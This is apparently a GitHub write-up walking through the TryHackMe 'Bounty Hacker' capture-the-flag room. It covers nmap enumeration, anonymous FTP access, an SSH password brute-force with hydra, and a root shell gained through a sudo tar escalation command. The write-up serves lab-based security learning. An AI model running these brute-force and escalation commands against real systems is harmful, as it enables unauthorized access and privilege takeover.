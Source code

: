 # Bounty Hacker 
 ~ https://tryhackme.com/room/cowboyhacker
* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")

<br>

![bonty intro](https://user-images.githubusercontent.com/112984045/200177378-c657e25e-8fa7-43fa-b5de-7c34aa08ee05.png)
 ~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![bonty nmap](https://user-images.githubusercontent.com/112984045/200179161-11ae6f38-9148-47f6-acbc-267679af2992.png)
  <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
 ![bonty portscanner](https://user-images.githubusercontent.com/112984045/200180020-c653c656-2254-4224-b674-866404b281eb.png)<br>
  ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 ## FOOTHOLD
 
 * `the ftp port 21 has Anonymous FTP login allowed (FTP code 230)`
 ![bonty ftpmarked](https://user-images.githubusercontent.com/112984045/200180232-5e8d8e21-8bdc-4e18-b1c6-f7f3a30ce9ba.png)
 <br> ~ Therefore we can login to ftp without password by using USERNAME: Anonymous.
 
 
 ![bonty ftp login](https://user-images.githubusercontent.com/112984045/200180807-8c088b60-5245-4a8e-8fd2-5261e67f2263.png)
 <br> ~ After login have observed the files using the command:
 ```bash
 ls -la
 ```
 <br>
 
 * As we cannot read the files on shell, we will download those files to our local system using commands:
 ``` bash
 get locks.txt
 ```
 ```bash
 get task.txt
 ```
 <br>
 
 * Now we can read the content in the files using command:
 ``` bash
 cat locks.txt
 ```
 ![bonty locks](https://user-images.githubusercontent.com/112984045/200181166-706202a0-397a-4215-aaea-b415642294d5.png)
  <br> ~ This file looks like password list, This could be helpfull for any further bruteforce.
  <br>
  
  ``` bash
  cat tash.txt
  ```
  ![bonty task](https://user-images.githubusercontent.com/112984045/200181361-2a32ec55-cc5d-4cfc-9312-54712a80668b.png)
  <br> ~ There is a message which is written by 'lin'
  ![bonty 3](https://user-images.githubusercontent.com/112984045/200181716-bc85faea-1009-495f-a21d-7e7a36c1fdc9.png)
  <br>
  
  `* As we have login access to ftp port hence there is only port 22 which could be bruteforce using locks.txt i.e ssh`
   ![bonty 4](https://user-images.githubusercontent.com/112984045/200181900-16b07e3f-d763-443a-9a8b-b097ea46b0ed.png)
   <br>
   
   * We have username: 'lin' and password list: locks.txt. We can use hydra tool for bruteforcing ssh server.
   <br>command:
   ```bash
   hydra -l lin -P locks.txt ssh://<IP>
   ```
   ![bonty hydra](https://user-images.githubusercontent.com/112984045/200182851-8e096ab3-b256-47d3-aa9b-8825637ee755.png)
   <br> ~ Now we can login to ssh using these credentials.
   ![bonty 5](https://user-images.githubusercontent.com/112984045/200183044-0a8e07d5-d71c-4232-be91-ef66868be99c.png)

 
   
   <br>
   
   * After logging in to ssh we can look for file contents and read them using the same commands :
   ```bash 
   ls -la
   ```
   ```bash
   cat user.txt
   ```
   ![bonty 5](https://user-images.githubusercontent.com/112984045/200183130-ea0fc571-676e-47bc-9790-122cbc2be4fb.png)
<br>
   
   ## PRIVILEGE ESCALATION :
  * To check the root level access on command or authority to read, write, execute on files, we use command :
  ```bash
  sudo -l
  ```
  ![bonty sudo-l](https://user-images.githubusercontent.com/112984045/200184909-39ac8c6a-66dd-4ba5-8aa2-a82be628221b.png)
   <br> ~ we can observe that user lin can run the commad tar as sudo.
   
  <br>
  
  ` * We can look in [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) for a command to escalate.`
  ![bonty gtfbins tar](https://user-images.githubusercontent.com/112984045/200183946-d92a93da-2afa-4d22-9c5f-9a8259c89517.png)
<br>

* Finally we can run the command :
```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
<br> ~ congo you are in.

* Now change directory to /root and read the flag using the commands :
```bash
cd /root
```
```bash
cat root.txt
```

`DO SUBMIT YOUR FLAG TO COMPLETE THE TASK`
   
### FOR ANY DOUBTS OR SUGGESTIONS DO WRITE TO shy.bu9@gmail.com
   
